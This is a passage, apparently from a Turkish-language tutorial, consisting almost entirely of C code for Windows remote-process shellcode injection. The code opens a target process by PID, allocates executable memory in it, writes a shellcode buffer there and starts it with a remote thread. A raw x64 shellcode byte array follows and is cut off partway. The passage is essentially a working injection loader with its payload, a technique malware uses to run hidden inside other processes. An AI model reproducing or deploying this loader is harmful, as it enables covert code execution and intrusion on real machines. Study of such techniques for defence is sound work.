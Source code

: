 ```c
        printf("Usage: .\\program.exe <PID>");
        return -1;
    }
    DWORD       PID = atoi(argv[1]);
    HANDLE      HandleProcess = NULL;
    HANDLE      HandleThread = NULL;
    LPVOID      RemoteBuffer = NULL;

    HandleProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, PID);
    if (HandleProcess == NULL) {
        printf("Failed to Open Target Process! Error Code: 0x%lx", GetLastError());
        return -1;
    }

    RemoteBuffer = VirtualAllocEx(HandleProcess, NULL, sizeof(Shellcode), (MEM_COMMIT | MEM_RESERVE), PAGE_EXECUTE_READWRITE);
    if (RemoteBuffer == NULL) {
        printf("Failed to Allocated Memory for DLL! Error Code: 0x%lx", GetLastError());
        CloseHandle(HandleProcess);
        return -1;
    }

    if (!(WriteProcessMemory(HandleProcess, RemoteBuffer, Shellcode, sizeof(Shellcode), 0))) {
        printf("Failed to write dllPath to Allocated Memory Error Code: 0x%lx", GetLastError());
        CloseHandle(HandleProcess);
        return -1;
    }

    HandleThread = CreateRemoteThreadEx(HandleProcess, NULL, 0, (LPTHREAD_START_ROUTINE)RemoteBuffer, NULL, 0, 0, 0);
    if (HandleThread == NULL) {
        printf("Failed to Create Thread! Error Code: 0x%lx\n", GetLastError());
        CloseHandle(HandleProcess);
        return -1;
    }
    WaitForSingleObject(HandleThread, INFINITE);
    CloseHandle(HandleThread);
    CloseHandle(HandleProcess);

    return 0;
}
```

Detaylıca göz atalım:

```c
char Shellcode[] =
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
"\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
"\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
"\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd"
```